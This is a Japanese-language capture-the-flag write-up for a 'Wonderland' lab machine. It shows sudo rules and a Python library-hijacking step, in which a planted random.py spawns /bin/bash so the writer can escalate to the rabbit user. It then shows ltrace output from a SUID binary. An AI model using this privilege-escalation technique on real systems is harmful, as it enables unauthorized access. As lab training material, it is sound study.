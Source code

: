 ```
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- rabbitユーザでwalrus_and_the_carpenter.pyの実行できる
- walrus_and_the_carpenter.pyの中身を確認するとimport randomをしてる
- random.pyの中のコードを実行できそう

```
random.py

import os
os.system("/bin/bash")
```
- walrus_and_the_carpenter.pyを実行
- sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
- rabbitに昇格成功


### rabbit

```
ls -la
total 40
drwxr-x--- 2 rabbit rabbit  4096 May 25  2020 .
drwxr-xr-x 6 root   root    4096 May 25  2020 ..
lrwxrwxrwx 1 root   root       9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25  2020 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25  2020 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25  2020 .profile
-rwsr-sr-x 1 root   root   16816 May 25  2020 teaParty
```
- teaPartyはsなので、rootでの実行が可能
- ./teaPartyで実行してみる

```
./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by Sat, 07 Jun 2025 09:41:05 +0000
Ask very nicely, and I will give you some tea while you wait for him
```
- 何か入力を待って、何か返してくれるらしい


```
ltrace ./teaParty
setuid(1003)                                                     = -1
setgid(1003)                                                     = -1
puts("Welcome to the tea party!\nThe Ma"...Welcome to the tea party!
The Mad Hatter will be here soon.
)                     = 60
system("/bin/echo -n 'Probably by ' && d"...Probably by Sat, 07 Jun 2025 09:47:38 +0000
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                           = 0
puts("Ask very nicely, and I will give"...Ask very nicely, and I will give you some tea while you wait for him
)                      = 69
getchar(1, 0x558ffba5d260, 0x7f62572188c0, 0x7f6256f3b154
)       = 10
puts("Segmentation fault (core dumped)"...Segmentation fault (core dumped)
)                      = 33
+++ exited (status 33) +++
```